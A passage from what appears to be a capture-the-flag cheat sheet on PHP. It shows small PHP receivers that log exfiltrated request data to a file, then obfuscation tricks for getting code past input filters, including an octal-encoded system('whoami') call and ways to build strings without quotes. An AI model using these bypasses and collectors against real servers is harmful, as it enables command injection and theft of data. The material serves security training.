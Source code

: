 ```php!
$p=str_replace(" ", "+", $_GET['p']);
$r=zlib_decode(base64_decode($p));
file_put_contents('requests.txt', "Request:\n$r\n", FILE_APPEND | LOCK_EX);
```

```php!
$f = fopen('requests.txt', 'a');
fwrite($f, $_GET['p'] . "\n");
fclose($f);
```

```php!
if ($_SERVER["REQUEST_METHOD"] === "POST") {} // ...
```

<br>

#### PHP — Obfuscation

[![php_eval](../../../../_badges/rootme/web_server/php_eval.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval)
[![php_eval_advanced_filters_bypass](../../../../_badges/rootme/web_server/php_eval_advanced_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval-Advanced-filters-bypass)

We may have to create innovative payloads due to input being filtered. PHP doesn't much room for that. 

* **PHP String Function Names**

```php!
'var_dump'('5');
('var'.'_dump')('5');
$f = 'var'.'_dump'; $f('5');
```

* **PHP Octal Strings**

You can copy-paste and use this [_php_octal Python Function](https://github.com/QuentinRa/onectf/blob/main/onectf/utils/tampering.py) to get octal representation of your PHP code.

```py
print(_php_octal('(system)("whoami")'))
# Output: ("\163\171\163\164\145\155")("\167\150\157\141\155\151")
# Alternative: $f = "\163\171\163\164\145\155"; $f("\167\150\157\141\155\151");
```

⚠️ Firstly, function name must be wrapped in parentheses or stored in a variable. Secondly, it only works with **double quotes**.

* **PHP Base 36** or **chr**: payloads without quotes

If you can use `chr(number)` then there is nothing more to say.

Otherwise,there are plenty of ways to get some characters. For instance: `(pi().pi())[1] === "."` or `microtime()[10] === " "`. More generically, concatenation converts anything to a string.

